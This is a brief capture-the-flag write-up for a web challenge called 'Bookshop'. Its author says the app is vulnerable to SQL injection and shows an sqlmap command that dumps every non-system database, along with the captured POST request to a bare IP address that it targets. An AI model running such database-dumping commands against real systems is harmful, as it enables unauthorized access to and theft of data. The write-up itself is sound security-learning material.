




Challenge was a Web application that has SQL Injection vulnerability.





I'm using SQLmap to retrieve flag table.

```
┌──(kali㉿kali)-[~/Desktop/CTF/Web/Bookshop]
└─$ sqlmap -r req.txt --dump-all --exclude-sysdbs
                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Desktop/CTF/Web/Bookshop]
└─$ cat req.txt                                                                              
POST / HTTP/1.1
Host: 34.126.72.118
Content-Length: 11
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://34.126.72.118
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://34.126.72.118/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

bookID=test
```





